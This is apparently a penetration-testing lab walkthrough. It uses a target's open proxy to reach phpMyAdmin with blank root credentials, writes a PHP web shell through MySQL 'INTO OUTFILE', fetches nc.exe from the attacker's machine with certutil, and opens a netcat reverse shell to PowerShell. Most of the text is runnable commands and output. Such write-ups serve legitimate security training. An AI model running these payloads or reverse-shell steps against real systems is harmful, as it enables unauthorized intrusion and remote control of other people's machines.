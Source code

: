We will configure our browser to use the target ip and port as a proxy `(192.168.120.223:3128)` using a plugin called [foxyproxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/).

![image](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_109_image_1_edB0FxiI.png)

image

Once the proxy is setup, we browse to http://127.0.0.1:8080. A WAMP Dashboard page is displayed and we can access phpMyAdmin. Using the default credentials, we can log into phpMyAdmin.

```
Username: root
Password: 
```

![image](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_109_image_2_tnIe2yoD.png)

image

Abusing the `into outfile` function in MySQL, we can write a php code to the target's webroot at http://127.0.0.1:8080/phpmyadmin/server_sql.php.

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
```

Writing php code to target webroot was successful, we can test RCE using curl.

```
┌──(kali㉿kali)-[~/Desktop/spose]
└─$ curl "http://127.0.0.1:8080/shell.php?cmd=whoami" --proxy 192.168.120.223:3128 
nt authority\local service
```

To spawn a reverse shell to our kali machine, we will apply the following steps.

1. Start a python, then transfer `nc.exe` to the target.

```
Terminal 1
┌──(kali㉿kali)-[~/Desktop/spose]
└─$ curl "http://127.0.0.1:8080/shell.php?cmd=certutil+-urlcache+-f+http://192.168.118.23/nc.exe+nc.exe" --proxy 192.168.120.223:3128

Terminal 2
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.223 - - [23/Mar/2022 06:50:55] "GET /nc.exe HTTP/1.1" 200 -
192.168.120.223 - - [23/Mar/2022 06:50:57] "GET /nc.exe HTTP/1.1" 200 -
```

2. Transfer of `nc.exe` was successful. We have to start `netcat` on our kali machine, then execute `nc.exe` from the target.

```
┌──(kali㉿kali)-[~]
└─$ curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+192.168.118.23+445+-e+powershell.exe" --proxy 192.168.120.223:3128
```
